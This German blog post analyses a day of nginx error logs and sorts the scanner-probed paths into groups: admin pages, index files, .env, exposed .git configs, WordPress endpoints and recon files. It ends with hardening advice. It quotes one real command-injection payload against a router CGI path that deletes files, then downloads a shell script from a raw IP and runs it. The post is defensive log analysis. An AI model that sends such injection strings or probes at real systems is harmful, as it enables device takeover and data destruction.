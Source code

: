 ```yaml
---
title: Scannen von häufigen Pfaden auf Webservern
filename: webserver_scanning
date: 2024-02-13T17:55:02+01:00
update-date:
tags: webserver, nginx, security, mongodb
category: hoellenmaschinen
summary: Auf meinem Server werden regelmäßig verdächtige URLs angefragt. Was hat es damit auch sich?
image:
language:
---
```


Ein Bekannter von der Uni hat neulich im internen Chat etwas geposted. Und zwar hat er eine ungesicherte MongoDB-Instanz ins Netz gestellt, weil er kurz etwas ausprobieren wollte. Zehn (!) Minuten später waren die Daten weg und nur eine Erpressermitteilung (à la „Your data has been backed up, pay 0.005 BTC to get them back“) war noch zu finden. Nun war das ein Testsystem für Sicherheitstests, und die Daten waren weder sensibel noch wichtig. Sonst hätte der die Datenbank auch nicht ins Netz gestellt. Aber von der Geschwindigkeit waren wir dann doch überrascht.

### Scans auf meinem Webserver

Das hat mich dann wieder daran erinnert, dass ich auch auf meinem Webserver (auf dem dieses Blog hier läuft) regelmäßig Fehler im Log finde, das irgendwelche obskuren Seiten nicht gefunden wurden. Das war [schon vor zwölf Jahren so](/blogposts/old_1960580) (und der Webserver damals lief nur standardmäßig, den habe ich dann bis zum Start dieses Blogs abgeschaltet), und es ist immernoch so. Ich logge ja nicht viel (Datenschutz), aber zumindest _welche_ Fehler der nginx so hat, logge ich dann doch.

Also habe ich mir ein kleines script geschrieben, um einfach mal diese Logdateien auszuwerten. Es wurden an einem Tag 131 eindeutige, ungültige Pfade angefordert. Die habe ich dann gruppiert. Hier eine Übersicht:

#### Fehler meinerseits

Ein paar der Pfade waren definitiv harmlos. Sechs davon gehen auf alte tag-Seiten. Das waren die einzigen Pfade, die ich ersatzlos gestrichen habe (jaja, ich weiß, „[cool URIs don't change](https://www.w3.org/Provider/Style/URI.html)“). Einer davon ging auf einen kaputten Bildpfad, und stammt aus einem `og`-Tag. Das konnte ich reparieren. Alleine dafür hat sich die Sache schon gelohnt.

Ach ja, und `/favicon.ico`, obwohl das favicon dieses Blog woanders liegt. Aber manche Browser fragen einfach immer nach dem alten Standardpfad.

#### Admin-Seiten

Dann gibt es die üblichen scans nach häufigen Pfadnamen für Admin-Seiten, vermutlich in der Hoffnung, eine ungesicherte Seite zu finden. Hier ein paar Beispiele:

```
/admin.asp
/admin.cfm
/admin.cgi
/admin.html
/admin.jhtml
/admin.jsa
/admin.jsp
/webui
```

#### Häufige Pfadnamen

Manches sieht einfach danach aus, also ob man alle möglichen Pfade durchgeht, die eventuell verwundbar sein könnten:

```
/default.asp
/default.aspx
/default.jhtml
/default.jsp
/default.php
/home.asp
/home.aspx
/home.cfm
/home.cgi
/home.pl
/index.asp
/index.html
/index.jsp
/index.pl
/index.shtml
/indice.asp
/indice.aspx
/indice.cfm
/indice.cgi
/indice.html
/indice.jhtml
/indice.jsa
/indice.jsp
/indice.php
/indice.pl
/indice.shtml
```

Gerade diese `index.*`-Dateien listen eventuell auch alle möglichen anderen Dateien im selben Ordner auf, könnten also auch hilfreich für Angreifer sein.

Und dann noch Pfade wie

```
/backup
/new
/old
```

vermutlich in der Hoffnung, vermeintlich gelöschte credentials abgreifen zu können.

`/.env` wurde auch abgerufen, vielleicht weil da öfters mal interessante Konfigurationsdaten drinstehen (z.B. auch wieder credentials).

#### Git-Pfade

Häufig genug wird anscheinend ein git-Repo direkt ins Webverzeichnis gelegt. Ich habe jetzt nicht näher nachgeschaut, was man mit diesen Informationen machen könnte, aber da manchmal sind credentials im git-Repo, oder der Code selber kann Lücken enthalten, oder es sind interessante Informationen in den config-Dateien.

```
/admin/.git/config
/app/.git/config
/application/.git/config
/config/.git/config
/.git/config
/.git/HEAD
/static../.git/config
```

#### Wordpress-Pfade

Wordpress ist immer noch sehr weit verbreitet, und hat historisch ja auch den Ruf, viele Lücken zu haben, oder insbesondere: viele Deployments zu haben, die bei bekannten, behobenen Lücken nicht aktualisiert wurden.

```
/wordpress
/wp
/wp-apxupx.php?apx=upx
/wp-json/acf/v3/options/a?id=wp_mail&field=smtp
//wp-json/wp/v2/posts?per_page=1&_fields=id,slug,comment_status
```

#### Recon-Krams

Bei manchen Dateien scheint es keinen vorrangingen Grund zu geben, warum ein Angreifer versuchen sollte, sie abzurufen. So zum Beispiel:

```
/CSS/Miniweb.css
/static/admin/javascript/hetong.js
/version
```

Ich vermute mal, man kann anhand dieser Dateien darauf schließen, ob eine gewisse, verwundbare Version einer Software auf dem Server läuft oder so.

#### Und was immer das hier ist

Manche Pfade sehen so offensichtlich bösartig aus, dass sie in keine der anderen Kategorien fallen:

```
/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(rm%20-rf%20%2A%3B%20cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F192.3.152.183%2Ftenda.sh%3B%20chmod%20777%20tenda.sh%3B%20.%2Ftenda.sh)
```

#### TLS-Fehler

Unabhängig von den Pfaden habe ich noch einige TLS-Fehler entdeckt. Das muss kein Scan sein. Es kann auch einfach sein, dass irgendein Client die Verbindung verkackt hat. Aber wenn man auf TLS-Lücken scannt, dann erzeugt das normalerweise auch einige Fehlermeldungen.

### Schlussfolgerungen

Das war nur eine sehr oberflächliche Übersicht über die aufgerufenen Pfade. Aber das ist schon interessant genug.

Ich weiß nicht, woher diese Scans kamen. In jedem Fall sind sie höchstwahrscheinlich automatisiert. Es könnten bösartige Angreifer gewesen sein. Oder Sicherheitsforscher. Oder Crawler von Sicherheits-Suchmaschinen, wie z.B. [Shodan](https://www.shodan.io/).

Das macht aber keinen Unterschied. Wichtig ist:

1. Auf _keinen Fall_ ungesicherte Seiten offen im Netz stehen lassen, die dort nicht sein sollten. _Nicht einmal für eine Sekunde_! Nicht einmal für das Setup eines Dienstes! Jedes offene Einfallstor _kann_ und _wird_ gefunden werden.
2. Jede Software, die Kontakt zum Netz hat, regelmäßig updaten. Jede Software, auf die Software zugreift, die Kontakt zum Netz hat, regelmäßig updaten. Wenn du die Software selbst schreibst: Jede Bibliothek regelmäßig updaten. Wenn es Sicherheitspatches gibt? _Am Tag der Veröffentlichung einspielen_!. Wenn ein Scanner eine verwundbare Seite findet, wird jemand diese Schwachstelle ausnutzen.
3. Aufpassen, dass der Webserver korrekt konfiguriert ist und nur Daten aus dem entsprechenden Verzeichnis ausliefert oder, bei dynamischen Seiten, genau das als Code ausführt, was ausgeführt werden soll
4. Keine Daten, die nicht öffentlich sein sollen, in einem Verzeichnis liegen lassen, aus dem Dateien ausgeliefert werden. Dateien wie eine git-Konfiguration oder ein Backup-Ordner können sensible Informationen enthalten.

